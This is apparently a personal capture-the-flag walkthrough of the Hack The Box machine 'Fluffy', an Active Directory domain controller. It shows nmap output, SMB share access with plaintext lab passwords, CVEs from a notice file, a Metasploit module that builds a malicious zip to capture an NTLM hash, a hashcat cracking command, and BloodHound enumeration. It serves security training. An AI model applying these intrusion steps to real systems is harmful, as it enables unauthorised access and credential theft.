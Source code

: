 > s8 - window - ez -  i cannot do


> [!NOTE]  
> i have no idea what an ad is...
> we ball im going in blind
> 
> future me is gonna look at this and hopefully think 'this idiot'
> 
> but this is a self note guided by a writeup 

<details>
<summary>Nmap scan</summary>

```
# Nmap 7.95 scan initiated Fri Jul  4 05:33:07 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -O -v -oN Fluffy 10.10.11.69
Nmap scan report for 10.10.11.69
Host is up (0.27s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-05 00:33:33Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 15h00m01s, deviation: 0s, median: 15h00m01s
| smb2-time: 
|   date: 2025-07-05T00:34:29
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  4 05:35:06 2025 -- 1 IP address (1 host up) scanned in 119.12 seconds
```
</details>

<details>
  <summary>Listing and connecting to SMB shares</summary>
 
smbclient -L //10.10.11.69 -U j.fleischman
```
  Password for [WORKGROUP\j.fleischman]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk      
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.69 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```


smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 19 10:27:02 2025
  ..                                  D        0  Mon May 19 10:27:02 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

		5842943 blocks of size 4096. 1567835 blocks available
```

Downloading files from the share 
```
smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!
Try "help" to get a list of possible commands.
smb: \> recurse ON  //recursively get files
smb: \> prompt OFF  // ignore prompt 
smb: \> mget * //get all
getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (121.6 KiloBytes/sec) (average 121.6 KiloBytes/sec)
getting file \KeePass-2.58.zip of size 3225346 as KeePass-2.58.zip (838.1 KiloBytes/sec) (average 267.7 KiloBytes/sec)
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (149.9 KiloBytes/sec) (average 261.0 KiloBytes/sec)
```
</details>

Findings in share
=
Nice pdf, dont mind if i take a look 

![image](https://github.com/user-attachments/assets/e1ba2b62-022b-43ac-a719-20b07168758c)

mentioned cves in the pdf
> CVE-2025-24996

External control of file name or path in Windows NTLM allows an unauthorized attacker to perform spoofing over a network.
![image](https://github.com/user-attachments/assets/3667dfe0-b375-45c7-a6a1-4f0339a83faa)
![image](https://github.com/user-attachments/assets/44a1832b-18f7-43d9-9149-ef50b6717f35)

> CVE-2025-24071

Exposure of sensitive information to an unauthorized actor in Windows File Explorer allows an unauthorized attacker to perform spoofing over a network.

> CVE-2025-46785

Buffer over-read in some Zoom Workplace Apps for Windows may allow an authenticated user to conduct a denial of service via network access.
> CVE-2025-29968

Improper input validation in Active Directory Certificate Services (AD CS) allows an authorized attacker to deny service over a network.
> CVE-2025-21193

Active Directory Federation Server Spoofing Vulnerability
> CVE-2025-3445


Metasploit exploit the cve
=
time to use a module which aparently is not in metasploit

1st get the module (rb file) and put it into this folder for reasons, after that, run it to make the payload (evil zip file)
```
/usr/share/metasploit-framework/modules/auxiliary/server/
```

![image](https://github.com/user-attachments/assets/875edeef-220a-4d6c-8e0f-95d4ad006860)

and here we have the hash....
time to put the cat to work
![image](https://github.com/user-attachments/assets/59601e74-6897-442c-abf2-cde799d7b7bc)

good cat! 

```hashcat -m 5600 -a 0 agila-has.txt /usr/share/wordlists/rockyou.txt --force```
![image](https://github.com/user-attachments/assets/1a3fecce-2231-4d24-be78-ba4aef7398a4)

but too bad this user too is unprivilleged 

bloodhound 
=
Using bloodhound, we can try to get 
<details>
fleischman

```
bloodhound-python -d FLUFFY.HTB -u j.fleischman -p "J0elTHEM4n1990!" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 51S
```

agila 

```
bloodhound-python -d FLUFFY.HTB -u p.agila -p "prometheusx-303" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 48S
```
	
</details>



